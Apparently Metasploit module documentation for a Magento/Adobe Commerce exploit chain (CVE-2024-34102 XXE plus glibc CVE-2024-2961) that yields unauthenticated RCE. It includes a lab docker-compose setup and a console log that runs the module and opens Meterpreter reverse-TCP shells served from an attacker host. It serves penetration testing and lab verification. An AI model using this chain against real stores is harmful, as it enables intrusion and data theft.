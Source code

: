 ## Vulnerable Application
This combination of an Arbitrary File Read (CVE-2024-34102) and a Buffer Overflow in glibc (CVE-2024-2961)
allows for unauthenticated Remote Code Execution on the following versions of Magento and Adobe Commerce and
earlier if the PHP and glibc versions are also vulnerable:
- 2.4.7 and earlier
- 2.4.6-p5 and earlier
- 2.4.5-p7 and earlier
- 2.4.4-p8 and earlier

Vulnerable PHP versions:
- From PHP 7.0.0 (2015) to 8.3.7 (2024)

Vulnerable iconv() function in the GNU C Library:
- 2.39 and earlier

The exploit chain is quite interesting and for more detailed information check out the references. The tl;dr being:
CVE-2024-34102 is an XML External Entity vulnerability leveraging  PHP filters to read arbitrary files from the target
system. The exploit chain uses this to read /proc/self/maps, providing the address of PHP's heap and the libc's filename.
The libc is then downloaded, and the offsets of libc_malloc, libc_system and libc_realloc are extracted, and made use
of later in the chain.

With this information and expert knowledge of PHP's heap (chunks, free lists, buckets, bucket brigades), CVE-2024-2961
can be exploited. A long chain of PHP filters is constructed and sent in the same way the XXE is exploited, building a
payload in memory and using the buffer overflow to execute it, resulting in an unauthenticated RCE.

### Setup

The following docker-compose file can be used to test this module. There are a few things that need to be noted:
1. cURL is not installed by default in the target container, in order for a fetch payload to be successful run the
   following once the container has been started:
```
   docker exec -it magento_magento_1 bash 
   root@13c538f53068:/# apt update; apt install curl -y
```
2. The docker-compose file sets magento server's name to `localhost` and in order to exploit the container `rhost` must
   be set to `localhost` (setting `rhost` to `127.0.0.1` or your local IP address will not work for this docker-compose file)
   and so given this configuration `msfconsole` must be running on the same host as the container.
3. The network settings on my macbook didn't allow me to exploit this locally so I was running the containers and
   `msfconsole` from an Ubuntu 22.04 VM.

```
services:
  mariadb:
    image: docker.io/bitnami/mariadb:10.6
    environment:
      # ALLOW_EMPTY_PASSWORD is recommended only for development.
      - ALLOW_EMPTY_PASSWORD=yes
      - MARIADB_USER=bn_magento
      - MARIADB_DATABASE=bitnami_magento
    volumes:
      - 'old_mariadb_data:/bitnami/mariadb'
  magento:
    image: docker.io/bitnami/magento:2.4.7-debian-12-r0
    ports:
      - '80:8080'
      - '443:8443'
    environment:
      - MAGENTO_HOST=localhost
      - MAGENTO_DATABASE_HOST=mariadb
      - MAGENTO_DATABASE_PORT_NUMBER=3306
      - MAGENTO_DATABASE_USER=bn_magento
      - MAGENTO_DATABASE_NAME=bitnami_magento
      - ELASTICSEARCH_HOST=elasticsearch
      - ELASTICSEARCH_PORT_NUMBER=9200
      # ALLOW_EMPTY_PASSWORD is recommended only for development.
      - ALLOW_EMPTY_PASSWORD=yes
    volumes:
      - 'old_magento_data:/bitnami/magento'
    depends_on:
      - mariadb
      - elasticsearch
  elasticsearch:
    image: docker.io/bitnami/elasticsearch:7
    volumes:
      - 'old_elasticsearch_data:/bitnami/elasticsearch/data'
volumes:
  old_mariadb_data:
    driver: local
  old_magento_data:
    driver: local
  old_elasticsearch_data:
    driver: local
```

## Options

### DOWNLOAD_FILE_TIMEOUT
This specifies how long the module should wait to receive a file that was requested by the `download_file` method which
exploits the Arbitrary File Read vulnerability CVE-2024-34102.

## Verification Steps

1. Start msfconsole
1. Do: `use linux/http/magento_xxe_to_glibc_buf_overflow`
1. Set the `RHOST`, `SRVHOST` and `LHOST` options
1. Run the module
1. Receive 3 Meterpreter sessions as the `daemon` user.

## Scenarios
### Magento/2.4 (Community) running PHP 8.2.17, GLIBC 2.36-9+deb12u4
```
msf6 > use magento_xxe_to_glibc_buf_overflow

Matching Modules
================

   #  Name                                                  Disclosure Date  Rank       Check  Description
   -  ----                                                  ---------------  ----       -----  -----------
   0  exploit/linux/http/magento_xxe_to_glibc_buf_overflow  2024-07-26       excellent  No     CosmicSting: Magento Arbitrary File Read (CVE-2024-34102) + PHP Buffer Overflow in the iconv() function of glibc (CVE-2024-2961)


Interact with a module by name or index. For example info 0, use 0 or use exploit/linux/http/magento_xxe_to_glibc_buf_overflow

[*] Using exploit/linux/http/magento_xxe_to_glibc_buf_overflow
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/magento_xxe_to_glibc_buf_overflow) > set srvhost 172.16.199.130
srvhost => 172.16.199.130
msf6 exploit(linux/http/magento_xxe_to_glibc_buf_overflow) > set fetch_srvhost 172.16.199.130
fetch_srvhost => 172.16.199.130
msf6 exploit(linux/http/magento_xxe_to_glibc_buf_overflow) > set rhost localhost
rhost => localhost
msf6 exploit(linux/http/magento_xxe_to_glibc_buf_overflow) > run 
[*] Exploit running as background job 8.
[*] Started reverse TCP handler on 172.16.199.130:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Using URL: http://172.16.199.130:8080/
[*] Server started
msf6 exploit(linux/http/magento_xxe_to_glibc_buf_overflow) > 
[+] Exploit precondition 1/3 met: Detected Magento Community edition version 2.4 which is vulnerable.
[+] Exploit precondition 2/3 met: PHP appears to be exploitable.
[+] Exploit precondition 3/3 met: glibc is version: 2.36
[+] The target appears to be vulnerable.
[*] Attempting to parse libc to extract necessary symbols and addresses
[*] Attempting to build an exploit PHP filter path with the information extracted from libc and /proc/self/maps
[*] Sending payload...
[*] Sending stage (3045380 bytes) to 172.30.0.4
[*] Sending stage (3045380 bytes) to 172.30.0.4
[*] Sending stage (3045380 bytes) to 172.30.0.4
[*] Meterpreter session 1 opened (172.16.199.130:4444 -> 172.30.0.4:35510) at 2024-10-09 22:25:38 -0700
[*] Meterpreter session 2 opened (172.16.199.130:4444 -> 172.30.0.4:35520) at 2024-10-09 22:25:38 -0700
[*] Meterpreter session 3 opened (172.16.199.130:4444 -> 172.30.0.4:35524) at 2024-10-09 22:25:38 -0700
[*] Server stopped.

msf6 exploit(linux/http/magento_xxe_to_glibc_buf_overflow) > sessions -i -1
[*] Starting interaction with 6...

meterpreter > getuid
Server username: daemon
meterpreter > sysinfo
Computer     : 172.25.0.4
OS           : Debian 12.5 (Linux 6.8.0-45-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
